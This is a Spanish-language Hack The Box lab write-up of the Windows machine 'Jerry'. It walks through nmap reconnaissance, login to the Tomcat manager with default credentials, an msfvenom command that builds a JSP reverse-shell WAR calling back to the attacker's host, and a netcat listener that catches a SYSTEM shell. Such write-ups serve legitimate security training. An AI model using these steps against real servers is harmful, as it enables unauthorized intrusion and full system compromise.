 ```yaml
---
title: Hack The Box Jerry
author: k4miyo
date: 2022-03-15
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Windows]
tags: [Arbitrary File Upload, File Misconfiguration]
ping: true
---
```


## Jerry
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.10.95.

```bash
❯ ping -c 1 10.10.10.95
PING 10.10.10.95 (10.10.10.95) 56(84) bytes of data.
64 bytes from 10.10.10.95: icmp_seq=1 ttl=127 time=138 ms

--- 10.10.10.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 137.931/137.931/137.931/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Windows. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.95 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 21:14 CST
Initiating SYN Stealth Scan at 21:14
Scanning 10.10.10.95 [65535 ports]
Discovered open port 8080/tcp on 10.10.10.95
Completed SYN Stealth Scan at 21:15, 26.50s elapsed (65535 total ports)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.14s latency).
Scanned at 2022-03-13 21:14:52 CST for 27s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
8080/tcp open  http-proxy syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.58 seconds
           Raw packets sent: 131088 (5.768MB) | Rcvd: 19 (836B)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts
───────┬─────────────────────────────────────
       │ File: extractPorts.tmp
       │ Size: 115 B
───────┼─────────────────────────────────────
   1   │ 
   2   │ [*] Extracting information...
   3   │ 
   4   │     [*] IP Address: 10.10.10.95
   5   │     [*] Open ports: 8080
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sCV -p8080 10.10.10.95 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 21:16 CST
Nmap scan report for 10.10.10.95
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.72 seconds
```

Vemos que se encuentra abierto el puerto 8080 y como siempre, antes de visualizar el contenido vía web, vamos a utilizar la herramienta `whatweb` para ver a lo que nos enfrentamos.

```bash
❯ whatweb http://10.10.10.95:8080
http://10.10.10.95:8080 [200 OK] Apache, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache-Coyote/1.1], IP[10.10.10.95], Title[Apache Tomcat/7.0.88]
```

Vemos que nos enfrentamos antes un Apache Tomcat, lo cual lo validamos vía web.

![](/assets/images/htb-jerry/jerry-web.png)

Vamos a ver si se puede acceder al recurso `/manager/html` y hacer uso de las credenciales por defect **tomcat : s3cret**:

![](/assets/images/htb-jerry/jerry-web1.png)

![](/assets/images/htb-jerry/jerry-web2.png)

Ya nos encontramos dentro del Gestor de Aplicaciones Web de Tomcat, por lo tanto, ya debemos estar pensando en generar un archivo de extensión **war** para subirlo y obtener acceso al sistema.

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.27 LPORT=443 -f war > shell.war
Payload size: 1103 bytes
Final size of war file: 1103 bytes

❯ ll
.rw-r--r-- root root 1.1 KB Tue Mar 15 01:41:14 2022  shell.war
❯ cp shell.war /home/k4miyo/Descargas/Firefox/.
```

Subimos nuestro archivo al servidor:

![](/assets/images/htb-jerry/jerry-web3.png)

Nos ponemos en escucha por el puerto 443 y ahora seleccionamos nuestro archivo.

![](/assets/images/htb-jerry/jerry-web4.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Ya hemos ingresado a la máquina como `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
